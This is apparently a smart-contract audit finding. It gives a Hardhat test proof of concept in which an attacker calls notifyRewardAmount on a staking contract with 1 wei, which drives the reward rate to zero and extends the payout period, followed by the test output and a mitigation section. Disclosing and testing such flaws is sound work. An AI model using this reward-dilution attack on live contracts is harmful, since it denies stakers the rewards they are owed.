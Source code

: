 ```js
			await symmStaking.connect(admin).notifyRewardAmount([await stakingToken.getAddress()], [initialRewardAmount])
			
			// Get initial reward rate
			const initialState = await symmStaking.rewardState(await stakingToken.getAddress())
			const initialRate = initialState.rate
			const initialPeriodFinish = initialState.periodFinish
			console.log("\nInitial reward rate:", initialRate.toString())
			
			// User deposits tokens
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)
		  
			// Wait some time to accumulate rewards
			await time.increase(Number(initialState.duration) / 2)
		  
			// Now simulate an attack with minimal reward amount to dilute the rate. --> user2 = attacker
			const attackAmount = "1" // Just 1 wei
			await stakingToken.connect(user2).approve(await symmStaking.getAddress(), attackAmount)
			await symmStaking.connect(user2).notifyRewardAmount([await stakingToken.getAddress()], [attackAmount])
		  
			// Check how rate was manipulated
			const attackedState = await symmStaking.rewardState(await stakingToken.getAddress())
			const attackedRate = attackedState.rate
			const attackedPeriodFinish = attackedState.periodFinish
			console.log("\nAttacked reward rate:", attackedRate.toString())
		  
			// Verify the impact of the attack
			expect(attackedPeriodFinish).to.be.gt(initialPeriodFinish) // Period has been extended
			expect(attackedRate).to.be.lt(initialRate) // Rate has been reduced
			expect(attackedRate).to.eq(0) // Rate has been reduced
		})
```

Output:
```js

Initial reward rate: 1

Attacked reward rate: 0
          ✔ shows bug - how reward rate can be manipulated with small amounts

```

## Root Cause & Mitigation 
The fundamental problem is that the current design doesn't properly separate different "tranches" of rewards. When new rewards are added, they're combined with existing rewards in a way that disrupts the original distribution plan. A truly fair system would need to:
- Keep track of separate reward schedules for each reward addition.
- Distribute each reward schedule according to its own timeline & rate.
- Although not strictly required, the protocol can even choose to make `notifyRewardAmount()` permissioned and only callable by admin as a measure of additional security.
